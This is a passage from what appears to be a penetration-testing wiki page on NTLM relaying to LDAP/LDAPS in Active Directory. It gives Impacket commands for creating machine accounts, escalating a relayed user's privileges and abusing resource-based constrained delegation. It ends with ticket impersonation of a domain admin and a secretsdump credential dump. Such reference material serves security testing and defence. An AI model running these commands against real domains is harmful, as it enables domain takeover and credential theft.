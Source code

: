 Another way of creating an account is to relay a user that has that right. When the domain user has enough privileges, that account will be promoted to a privileged group.

```bash
ntlmrelayx.py -t ldaps://$DC_TARGET
```

{% hint style="info" %}
In most cases, the `--remove-mic` option will be needed when relaying to LDAP(S) because of the [MIC protection](relay.md#mic-message-integrity-code).
{% endhint %}

{% hint style="info" %}
Using LDAPS for that operation is not mandatory since Active Directory LDAP implements StartTLS. This is implemented in Impacket since April 30th 2022 ([PR #1305](https://github.com/SecureAuthCorp/impacket/pull/1305)).

```bash
ntlmrelayx.py -t ldap://$DC_TARGET --add-computer SHUTDOWN
```
{% endhint %}
{% endtab %}

{% tab title="Promotion" %}
The following command will try to relay the authentication over LDAPS and escalate the privileges of a domain user by adding it to a privileged group or doing some [ACE abuse](../dacl/) (`--escalate-user`) if the relayed account has sufficient privileges.

```bash
ntlmrelayx.py -t ldaps://$DOMAIN_CONTROLLER --escalate-user SHUTDOWN
```

{% hint style="info" %}
This technique is usually combined with a [PushSubscription abuse (a.k.a. PrivExchange)](../mitm-and-coerced-authentications/#pushsubscription-abuse-a-k-a-privexchange) to force an Exchange server to initiate an authentication, relay it to a domain controller and abuse the default high privileges of Exchange servers in AD domains (`WriteDACL` over domain object, see [Abusing ACEs](../dacl/)) to escalate a domain user privileges (`--escalate-user`).
{% endhint %}
{% endtab %}

{% tab title="Delegation" %}
The following command will [abuse Resource Based Kerberos Constrained Delegations (RBCD)](../kerberos/delegations/rbcd.md) to gain admin access to the relayed machine. The `--escalate-user` option must be supplied with a controlled machine account name. If no machine account is controlled, the `--add-computer` option can be supplied instead like the "Account creation" tab before, and by targeting LDAPS instead of LDAP.

```bash
ntlmrelayx.py -t ldaps://$DC_TARGET --escalate-user SHUTDOWN --delegate-access
```

If successful, the attacker will then be able to get a service ticket with the created domain machine account for the relayed victim and impersonate any account (e.g. the domain admin) on it.

```bash
getST.py -spn host/$RELAYED_VICTIM '$DOMAIN/$NEW_MACHINE_ACCOUNT$:$PASSWORD' -dc-ip $DOMAIN_CONTROLLER_IP -impersonate $USER_TO_IMPERSONATE
export KRB5CCNAME=$USER_TO_IMPERSONATE.ccache
secretsdump.py -k $RELAYED_VICTIM
```
{% endtab %}
